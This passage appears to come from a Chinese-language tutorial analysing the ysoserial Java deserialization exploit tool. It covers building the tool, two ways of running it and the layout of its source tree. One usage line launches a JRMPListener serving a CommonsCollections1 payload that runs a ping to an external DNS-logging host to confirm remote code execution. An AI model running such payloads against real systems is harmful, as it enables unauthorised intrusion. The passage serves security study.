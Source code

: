 再次执行`mvn clean package -DskipTests`，编译成功在target目录下生成相对应的jar包

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01171274322df63afa.png)

### <a class="reference-link" name="0x3%20%E4%BD%BF%E7%94%A8"></a>0x3 使用

主要有两种使用方式，一种是运行ysoserial.jar 中的主类函数，另一种是运行ysoserial中的exploit 类，二者的效果是不一样的，一般用第二种方式开启交互服务于。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPListener 38471
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'ping -c 2  rce.267hqw.ceye.io'
```

这两种方式在之后的代码分析中会详细分析。



## 0x02 架构分析

从整体设计模式上分析该工具的编写方法，项目整体的目录结构如下所示：

```
|____ysoserial
| |____exploit
| | |____JRMPClient.java
| | |____JRMPListener.java
| |____secmgr
| | |____DelegateSecurityManager.java
| | |____ExecCheckingSecurityManager.java
| |____payloads
| | |____CommonsCollections3.java
| | |____ObjectPayload.java
| | |____util
| | | |____PayloadRunner.java
| | | |____Gadgets.java
| | | |____Reflections.java
| | | |____ClassFiles.java
| | | |____JavaVersion.java
| | |____annotation
| | | |____PayloadTest.java
| | | |____Authors.java
| | | |____Dependencies.java
| |____GeneratePayload.java
| |____Serializer.java
| |____Strings.java
| |____Deserializer.java

```

大体分为生成代码、利用库（工具库）、payloads库、序列化库 这四大库。
